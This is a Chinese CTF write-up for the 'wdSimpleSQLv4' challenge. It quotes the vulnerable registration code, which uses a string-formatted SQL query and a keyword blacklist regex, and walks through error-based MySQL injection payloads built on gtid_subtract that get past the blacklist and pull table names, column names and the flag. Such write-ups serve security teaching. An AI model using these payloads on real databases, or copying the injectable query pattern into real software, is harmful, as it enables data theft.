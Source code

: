 wdSimpleSQLv4 500 points
================

题意
-------------

会长把我打的半残，还威胁我不要放题。为了小命着想，我决定直接放大招。

(PS: Attachment updated at 2018-09-25 01:32 UTC+8)

http://host:port

attachment: wdSimpleSQLv4.zip

解题步骤
-------------

这次更换了注入点到注册的页面上，相关代码如下：

```
self.blacklist = re.compile(r'gtid_subset|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|hash|sleep|benchmark| |;|\*|\+|-|/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`', flags=re.I|re.M)
# omitted...
if self.blacklist.search(username):
    response['Error'] = "T_T, what are you doing?"
    self.render("login.html", error=response['Error'])
    return
sql = "select uid, username, password from users where username = '%s'" % username
try:
    users = self.db.query(sql)
except MySQLdb.Error as e:
    # 500
    response['Error'] = str(e[1])
    self.render("login.html", error=response['Error'])
    return
except Exception as e:
    # 500
    response['Error'] = 'Invalid Username or Password'
    self.render("login.html", error=response['Error'])
    return
# omitted...
```

可以看出，这是对 `MySQL Error Leak` 进行利用的题目。不过做了很多黑名单，我们需要绕过这些黑名单，错误信息的泄露用的是 `gtid_substract` 。最后得到的注入的 `SQL` 语句如下：

```
select uid, username, password from users where username = 'abc'and(select(gtid_subtract((select(right(group_concat(table_name),hex('F')))from(information_schema.tables)),'A')))#'
```

得到了最新创建的若干表名称，发现一个奇怪的 `PIsAukBsoucg` ，进而查找它的列名：

```
select uid, username, password from users where username = ''and(select(gtid_subtract((select(group_concat(column_name))from(information_schema.columns)where(table_name)='PIsAukBsoucg'),'A')))#
```

获取到了列名： `wUpWAcapJIxP` ，最后把 `flag` 获取出来：

```
select uid, username, password from users where username = ''and(select(gtid_subtract((select(wUpWAcapJIxP)from(PIsAukBsoucg)),'A')))#
```

最后得到了 `flag: THUCTF{ST_hAs_s0_mANy_u34ful_FunC}` 。从这个名字可以看出，出题者想考的大概是另一个函数，不过作用是一样的。实际利用的代码为 [wd4.py](wd4.py)。